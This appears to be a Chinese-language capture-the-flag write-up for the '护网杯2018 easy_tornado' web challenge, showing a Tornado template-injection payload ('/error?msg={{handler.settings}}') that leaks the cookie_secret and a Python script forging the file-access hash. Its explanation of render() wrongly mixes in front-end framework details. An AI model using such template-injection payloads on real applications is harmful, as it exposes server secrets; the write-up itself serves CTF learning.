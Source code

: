 ```yaml
---
title: [护网杯2018]easy_tornado
date: 2020-05-10 08:45:22
tags: Web
---
```


# **[护网杯 2018]easy_tornado**

都打开看看

> /flag. txt
> flag in/flllllllag

>  /welcome. txt
>  render  

>   /hints. txt
>   md5(cookie_secret+md5(filename) )

**render()函数详解**

>  1.**render方法的实质就是生成 itemplate模板**
>  2.通过调用一个方法来生成，而这个方法是通过 render方法的参数传递给它的
>  3.这个方法有三个参数，分别提供标签名，标签相关属性，标签内部的htm内容
>  4.通过这三个参数，可以生成一个完整的木模板
>
>  tips：
>
>  > 1、render方法可以使用SX语法，但需要 Babel plugin插件
>  > 2、 render方法里的第三个参数可以使用函数来生成多个组件（特别是如果他们相同的话），只要生成结果是一个数组，且数组元素都是vNode即可  

通过这种方式在网页上显示

render 标志着**模板注入**

> render是python中的一个渲染函数，也就是一种模板，通过调用的参数不同，生成不同的网页 render配合Tornado使用

 测试一下

> /error?msg={ {1*2} }

经过测试发现过滤

payload:

> /error?msg={ {handler.settings} }

拿到 cookie_secret 解密

```python
import hashlib
hash = hashlib.md5()

filename='/fllllllllllllag'
cookie_secret="8b1de274-3078-4412-a8c4-a6835eeda4a1"
hash.update(filename.encode('utf-8'))
s1=hash.hexdigest()
hash = hashlib.md5()
hash.update((cookie_secret+s1).encode('utf-8'))
print(hash.hexdigest())
```

得到flag

**拓展**:

```python
#生成 Tornado 所需的 cookie_secret 的办法
import base64
import uuid

base64.b64encode(uuid.uuid4().bytes + uuid.uuid4().bytes)
```

